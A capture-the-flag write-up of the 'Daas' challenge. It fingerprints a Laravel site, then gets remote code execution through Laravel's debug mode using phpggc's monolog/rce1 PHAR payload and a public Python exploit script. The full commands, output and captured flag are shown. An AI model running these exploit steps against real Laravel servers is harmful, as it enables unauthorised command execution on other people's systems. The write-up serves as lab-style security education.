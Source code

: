 # Daas
![Image](<../Pasted image 20210422121526.png>)

## Enumeration
Using whatweb can help us quickly identify some potential back end information. In this case we know it is running nginx. 
```bash
└──╼ $whatweb http://206.189.121.131:32458/
http://206.189.121.131:32458/ [200 OK] Cookies[XSRF-TOKEN,laravel_session], Country[UNITED STATES][US], HTML5, HTTPServer[nginx], HttpOnly[laravel_session], IP[206.189.121.131], Laravel, Title[Laravel], nginx
```
Refering back to the first web page we can see the laravel version, and php version. Using that information we can do some OSINT to see if any exploit exist. Some google Fu leads us to this page.

https://www.ambionics.io/blog/laravel-debug-rce

We can see that laravel when in debug mode leads us to an RCE. A github is provided that can be used for this exploit. The only extra requirement is to download PHPGGC, which will be used to create the deserialized payload.

https://github.com/ambionics/laravel-exploits

https://github.com/ambionics/phpggc

We can now clone both of these repos using Git, then exploit as shown below. We first used find to locate the flag on the filesystem, then we used cat to view the file.

```bash
php -d'phar.readonly=0' ./phpggc --phar phar -f -o /tmp/exploit.phar monolog/rce1 system 'find / -iname flag* 2>/dev/null'
┌─[x0ff3ns1v3@parrot]─[~/Downloads/Daas/phpggc]
└──╼ $python3 ../laravelexploit.py http://165.227.232.115:31142/ /tmp/exploit.phar 
+ Log file: /www/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
+ Phar deserialized
--------------------------
...snip...
/flaglpfGC
--------------------------
+ Logs cleared
┌─[x0ff3ns1v3@parrot]─[~/Downloads/Daas/phpggc]
└──╼ $php -d'phar.readonly=0' ./phpggc --phar phar -f -o /tmp/exploit.phar monolog/rce1 system 'cat /flaglpfGC'
┌─[x0ff3ns1v3@parrot]─[~/Downloads/Daas/phpggc]
└──╼ $python3 ../laravelexploit.py http://165.227.232.115:31142/ /tmp/exploit.phar 
+ Log file: /www/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
+ Phar deserialized
--------------------------
CHTB{wh3n_7h3_d3bu663r_7urn5_4641n57_7h3_d3bu6633}
--------------------------
+ Logs cleared

```

